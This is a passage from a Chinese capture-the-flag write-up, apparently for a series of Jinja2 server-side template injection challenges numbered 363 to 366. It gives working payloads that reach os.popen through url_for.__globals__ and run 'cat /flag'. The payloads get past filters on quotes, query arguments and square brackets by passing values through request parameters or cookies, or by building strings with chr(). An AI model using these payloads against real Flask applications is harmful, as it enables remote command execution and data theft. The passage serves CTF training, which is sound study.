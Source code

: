 当然还有很多rce的方法，self、request等等都可以

## 363_过滤引号

上面的又用不了了，发现是过滤了单引号和双引号

可以用request绕过：

```jinja2
a=os&b=popen&c=cat /flag&name={{url_for.__globals__[request.args.a][request.args.b](request.args.c).read()}}
```

也可以用字符串拼接，不过太麻烦了，可以写脚本跑一下出payload，但我太懒了

```jinja2
?name={{config.__str__()[num]}}
然后拼接即可,拼接获得os：?name={{url_for.__globals__['os']}}
{{url_for.__globals__[(config.__str__()[2])%2B(config.__str__()[42])]}}
```

也可以先把chr给找出来，然后用chr进行字符串拼接，比上面那种方便些：

```
{% set chr = url_for.__globals__.__builtins__.chr %}
{% print url_for.__globals__[chr(111)%2bchr(115)] %}
```

## 364_过滤args

过滤了args，本来想要post：
`?name={{url_for.__globals__[request.form.a][request.form.b](request.form.c).read()}}`
然后post传`a=os&b=popen&c=cat /flag`，但是爆405了，看来post方法不被允许

改用cookie传值（其实values也可以）：

```jinja2
/?name={{url_for.__globals__[request.cookies.a][request.cookies.b](request.cookies.c).read()}}

cookie:a=os;b=popen;c=cat /flag
```

![](https://i.loli.net/2021/08/11/63gSautyOmLHUiR.png)

## 365_过滤中括号

过滤了引号、中括号和args，cookiers仍然可用
中括号可以换成`.`，因为jinja2对它俩的解析方式其实一样
还可以用`__getitem__`、或者利用`index()`配合遍历判断，都可以

```jinja2
/?name={{url_for.__globals__.os.popen(request.cookies.c).read()}}

c=cat /flag
```

## 366_过滤下划线

